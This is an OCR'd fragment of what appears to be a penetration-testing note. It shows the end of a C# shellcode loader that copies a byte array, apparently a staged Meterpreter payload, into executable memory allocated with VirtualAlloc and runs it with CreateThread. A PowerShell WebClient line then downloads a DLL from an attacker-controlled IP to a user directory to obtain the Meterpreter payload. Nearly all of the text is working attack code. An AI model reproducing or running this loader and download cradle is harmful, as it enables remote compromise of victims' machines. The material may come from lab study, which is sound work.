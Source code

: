```csharp

                                                        0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,

                                                        0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,

                                                        0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,

                                                        0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,

                                                        0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,

                                                        0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3,

                                                        0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,

                                                        0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,

                                                        0xd5};

  

  

            int size = buf.Length;

  

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

  

            Marshal.Copy(buf, 0, addr, size);

  

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

  

            WaitForSingleObject(hThread, 0xFFFFFFFF);

        }

  

    }

  

}
```
- interact with powershell to get meterpreter staged payload
```powershell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.110/ClassLibrary1.dll', 'C:\Users\dooley\ClassLibrary1.dll')
```